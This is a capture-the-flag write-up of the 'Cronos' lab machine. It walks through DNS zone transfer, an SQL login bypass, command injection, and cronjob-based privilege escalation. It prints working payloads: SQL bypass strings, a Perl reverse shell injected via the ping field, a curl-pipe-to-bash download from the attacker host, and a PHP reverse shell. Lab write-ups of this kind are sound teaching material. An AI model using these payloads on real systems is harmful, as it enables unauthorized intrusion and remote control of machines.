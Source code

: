 # Cronos
> Name: Cronos<br/>
> Difficulty: Medium<br/>
> Solved: 25th June 2021<br/>

## Intro
Cronos is an interesting  Linux (ubuntu) machine. Below is the log of how i approached it.

<br/>
## Enumeration
Lets first scan the box with nmap to see services running. We use below command:<br/>

    `$ nmap -sC -sV -oA nmap/cronos 10.10.10.13`<br/>
    
Above command runs nmap with default scripts `-sC`, version detection `-sV` and creates output in other file formats.
<br/>

The scan gives the following output:
![Nmap Image](./images/cronos_nmap.png)

We have services running on port 22, 53 and 80. We'll check them in detail.

First, lets check the website running on port 80. 

![](./images/cronos_apacheDefault.png)
it just gives us default Apache page. I tried gobuster on it but found no directories. :(

<br/>

Then i turned my attention to port 53, I had no idea about <span id=yellow>ISC BIND service</span>. Searching the internet provided good idea about it.<br/>
Below is a simple description:
> BIND (Berkeley Internet Name Domain) is an open source software that enables you to publish your Domain Name System (DNS) information on the Internet, and to resolve DNS
queries for your users.

Now i looked at `searchsploit` for known any exploits, spent some time with the exploits that came up, but none of them worked.

After a while i queried the server for its <u>reverse DNS record</u>, i used command `dig @10.10.10.13 -x 10.10.10.13`<br/>
Below we can see, that the server responded:

![](./images/cronos_dig1.png)

Now, we have new domains. So i added <span id=yellow>ns1.cronos.htb</span> and <span id=yellow>cronos.htb</span> to my host file.<br/>
Visiting cronos.htb and ns1.cronos.htb provided with a simple webpage created using Laravel and no further directories were revealed with gobuster .
So this seemed like a dead end. :(


Now, since this is a DNS Server, it tried to do <u>zone transfer</u> and it worked. See below:

![](./images/cronos_dig.png)
Also, this revealed the admin portal. <span id=green>admin.cronos.htb</span>


Now i visited admin.cronos.htb and was greeted with a login form as shown below

![](./images/cronos_adminpanel.png)

I tried basic payloads and got in with a simple SQL authentication bypass payload:<br/>
    `admin' or '1'='1'#`  or  `admin' #`  worked for me.
    
Below is the request in Burp 
![](./images/cronos_authbypass.png)

After the bypass it redirected me to a simple webpage, where two commands  `traceroute` and `ping` could be executed. 

I verified if i could ping my machine, below we can see `tcpdump` capturing ping request coming to our machine.
![](./images/cronos_cmdexecution.png)

Next, it was only natural to try to see if i could get <span id=green>command execution here</span>.<br/>
So i tried the payload `8.8.8.8; ls` and it displayed the contents of web root directory. Great! We have command execution.

Next i set up a listener on my local machine and ran a reverse shell on the server and got the session.<br/>

![](./images/cronos_perlshell.png)

Perl reverse shell Payload used above:
```perl
8.8.8.8; perl -e 'use Socket;$i="10.10.14.7";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


Below we can see, we get a session on our local machine <span id=green>:)</span>
![](./images/cronos_rshell1.png)

Now, we have session to server. we see a home directory of user `noulis` and there we get our `user.txt` flag.

Next task: Priveldge escalation.
<br/>

## Priveledge Escalaiton

Make a local python server and upload the `linEnum.sh` script.<br/>

  Start a local python server  : `$ python -m SimpleHTTPServer 8181`
  Download and run on attacker :  `$ curl http://10.10.14.7/linEnum.sh | bash`
  
![](./images/cronos_linEnum1.png)

Spent some times time looking at the output, its a lot. Then came across something interesting:
![](./images/cronos_linEnum1.png)
Above we can see, the PHP script `/var/www/laravel/artisan` is being run as root, which we can modify.

Now, we prepare a PHP webshell and upload it to replace the contents of the  script `artisan`. 
```php
#!/usr/bin/env php
<?php
$sock=fsockopen("10.10.14.7",4445);exec("/bin/sh -i <&3 >&3 2>&3");
```

Uploading the PHP webshell
![](./images/cronos_exploitation.png)

Meanwhile, it set up a listener at port `4445`, and waited for shell to execute via cronjob.
After a minute, go the session :)
![](./images/cronos_root.png)

Now, Cronos is Owned. 



